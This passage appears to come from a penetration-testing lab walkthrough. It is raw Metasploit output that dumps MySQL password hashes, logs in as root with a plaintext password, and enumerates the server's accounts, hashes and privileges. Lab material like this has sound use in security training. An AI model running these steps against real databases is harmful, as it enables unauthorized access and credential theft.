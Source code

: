 ```
[+] 192.34.86.3:3306      - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.34.86.3:3306      - Saving HashString as Loot: gopher:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.34.86.3:3306      - Saving HashString as Loot: backup:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.34.86.3:3306      - Saving HashString as Loot: sysadmin:*78A1258090DAA81738418E11B73EB494596DFDD3
[*] 192.34.86.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/mysql/mysql_hashdump) > use auxiliary/admin/mysql/mysql_enum
msf5 auxiliary(admin/mysql/mysql_enum) > set PASSWORD twinkle
PASSWORD => twinkle
msf5 auxiliary(admin/mysql/mysql_enum) > set USERNAME root
USERNAME => root
msf5 auxiliary(admin/mysql/mysql_enum) > run
[*] Running module against 192.34.86.3

[*] 192.34.86.3:3306 - Running MySQL Enumerator...
[*] 192.34.86.3:3306 - Enumerating Parameters
[*] 192.34.86.3:3306 -  MySQL Version: 5.5.61-0ubuntu0.14.04.1
[*] 192.34.86.3:3306 -  Compiled for the following OS: debian-linux-gnu
[*] 192.34.86.3:3306 -  Architecture: x86_64
[*] 192.34.86.3:3306 -  Server Hostname: victim-1
[*] 192.34.86.3:3306 -  Data Directory: /var/lib/mysql/
[*] 192.34.86.3:3306 -  Logging of queries and logins: OFF
[*] 192.34.86.3:3306 -  Old Password Hashing Algorithm OFF
[*] 192.34.86.3:3306 -  Loading of local files: ON
[*] 192.34.86.3:3306 -  Deny logins with old Pre-4.1 Passwords: OFF
[*] 192.34.86.3:3306 -  Allow Use of symlinks for Database Files: YES
[*] 192.34.86.3:3306 -  Allow Table Merge: 
[*] 192.34.86.3:3306 -  SSL Connection: DISABLED
[*] 192.34.86.3:3306 - Enumerating Accounts:
[*] 192.34.86.3:3306 -  List of Accounts with Password Hashes:
[+] 192.34.86.3:3306 -          User: root Host: localhost Password Hash: *A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.34.86.3:3306 -          User: root Host: 891b50fafb0f Password Hash: 
[+] 192.34.86.3:3306 -          User: root Host: 127.0.0.1 Password Hash: 
[+] 192.34.86.3:3306 -          User: root Host: ::1 Password Hash: 
[+] 192.34.86.3:3306 -          User: debian-sys-maint Host: localhost Password Hash: *F4E71A0BE028B3688230B992EEAC70BC598FA723
[+] 192.34.86.3:3306 -          User: root Host: % Password Hash: *A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.34.86.3:3306 -          User: filetest Host: % Password Hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.34.86.3:3306 -          User: ultra Host: localhost Password Hash: *94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
[+] 192.34.86.3:3306 -          User: guest Host: localhost Password Hash: *17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.34.86.3:3306 -          User: gopher Host: localhost Password Hash: *027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.34.86.3:3306 -          User: backup Host: localhost Password Hash: *E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.34.86.3:3306 -          User: sysadmin Host: localhost Password Hash: *78A1258090DAA81738418E11B73EB494596DFDD3
[*] 192.34.86.3:3306 -  The following users have GRANT Privilege:
[*] 192.34.86.3:3306 -          User: root Host: localhost
[*] 192.34.86.3:3306 -          User: root Host: 891b50fafb0f
[*] 192.34.86.3:3306 -          User: root Host: 127.0.0.1
[*] 192.34.86.3:3306 -          User: root Host: ::1
[*] 192.34.86.3:3306 -          User: debian-sys-maint Host: localhost
```